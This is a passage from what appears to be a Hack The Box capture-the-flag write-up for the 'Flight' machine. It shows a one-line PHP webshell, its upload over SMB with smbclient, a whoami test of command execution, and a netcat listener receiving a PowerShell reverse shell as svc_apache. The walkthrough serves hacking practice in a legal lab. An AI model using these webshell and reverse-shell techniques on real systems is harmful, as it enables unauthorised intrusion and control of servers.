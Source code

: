 
First lets create a simple PHP webshell:
```
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ cat cmd.php                               
<?php system($_GET["cmd"]); ?>
```

We can then use the `put` command to load it to the flight.htb Web share:

```
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ smbclient //10.10.11.187/Web -U c.bum
Password for [WORKGROUP\c.bum]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Feb 10 20:02:00 2024
  ..                                  D        0  Sat Feb 10 20:02:00 2024
  flight.htb                          D        0  Sat Feb 10 20:02:00 2024
  school.flight.htb                   D        0  Sat Feb 10 20:02:00 2024

		5056511 blocks of size 4096. 1237309 blocks available
smb: \> cd flight.htb
smb: \flight.htb\> ls
  .                                   D        0  Sat Feb 10 20:02:00 2024
  ..                                  D        0  Sat Feb 10 20:02:00 2024
  css                                 D        0  Sat Feb 10 20:02:00 2024
  images                              D        0  Sat Feb 10 20:02:00 2024
  index.html                          A     7069  Wed Feb 23 23:58:10 2022
  js                                  D        0  Sat Feb 10 20:02:00 2024

		5056511 blocks of size 4096. 1237309 blocks available
smb: \flight.htb\> put cmd.php
putting file cmd.php as \flight.htb\cmd.php (0.1 kb/s) (average 0.1 kb/s)
```

Next we can confirm we have code execution by navigating to:

http://flight.htb/cmd.php?cmd=whoami

![flight_webshell.png](../assets/flight_assets/flight_webshell.png)

Awesome. Lets now set up a netcat listener and grab a Powershell reverse shell and URL encode it.

(Note you'll want to move pretty fast here. The cmd.php file is being scrubbed away fairly quickly.)

Entering the one liner into the cmd prompt gets us a shell back as svc_apache:

```
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ nc -lnvp 443                                                                                   
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.187] 50193
whoami
flight\svc_apache
PS C:\xampp\htdocs\flight.htb> hostname
g0
```

